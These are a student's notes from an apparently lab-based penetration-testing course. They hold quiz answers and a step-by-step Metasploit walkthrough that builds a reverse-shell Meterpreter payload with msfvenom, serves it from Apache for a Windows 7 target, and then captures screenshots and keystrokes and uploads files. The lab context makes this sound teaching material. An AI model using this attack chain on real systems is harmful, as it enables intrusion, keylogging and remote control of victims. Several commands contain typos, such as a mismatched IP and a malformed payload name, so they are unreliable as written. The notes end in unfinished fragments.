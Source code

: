 # Lab and Quiz Review
## Quiz
1. A reverse shell is a type of shell in which the target machine communicates back to the attacking machine
  * more practical and widely used
3. Posting on a website is _**not**_ the only way to deliver the payload/malicious code
4. Only the `sessions` command can view and interact with a background session
5. Penetrations testing can evelauate the security of the system or network

* False Statements: cannot be used to identify the vulnerabilities let undetected by automated vulnerability scanners; is an unauthroized attempt to exploit a computer system
7. `screenshot` is the command used to create a printscreen from the target machine in the Meterpreter shell
8. `use exploit` command is used to select an exploit
9. In the `Windows Shell` environment attacker can use “net user” to create an account
10. The `set` command is used to select a payload

## Lab
### Task A
#### Kali Terminal 1
`
msfconsole // opens the shell
use exploit/multi handler
show options
set payload windows/meterpreter/reverse_tcp
set lhost 192.169.10.13  // ip address of the attacker
set lport 30122
show options // shows us that we have the correct information added
exploit
`
#### Kali Terminal 2
`
msfvenom -p windows.meterpreter/reverse_tcp lhost=192.168.10.13 lport=30122 -f exe -o kboeh002.exe  // kboeh002.exe is the payload we just created
`

Next step is to deliver it to the fake website

`
service apache2 start
cp kboeh002.exe /var/www/html/
ls /var/www/html  // lists content so we can double check it has been properly uploaded
`
### Windows 7

Access the ip address of the attacker machine and /filename

`192.168.10.13/kboeh002.exe` which will download the payload, then you must run it

### Task B

#### Kali Terminal 1

`screenshot'

* if you use the `screenshare` command it will stream the desktop, similar to sharing a screen in discord or zoom

`keyscan` command to pick up keystrokes from target
`keyscan_start`

#### Windows 7

Type "This is Kristiana Boehmer, happy spring break!"

#### Kali Terminal 1
`keyscan_dump` // returns keystrokes
`keyscan_stop` // ends the keystroke record
#### Kali Terminal 3
`
// Create document with date
echo -e "$(date)" > ~/IMadeIt-kboeh002.txt
`
### Kali Terminal 1

* must specify souce and destination paths

`
upload IMadeIt-kboeh002.txt
`
It will upload by default to the current location in the system, if you want it to go to a different location...

`upload IMadeIt-kboeh002.txt 'C:\Users\Windows 7\Desktop'` // this will upload it to the desktop of the target

### Task C
####

# Password Security
### 3/21/22
* dd 
* d

`

`

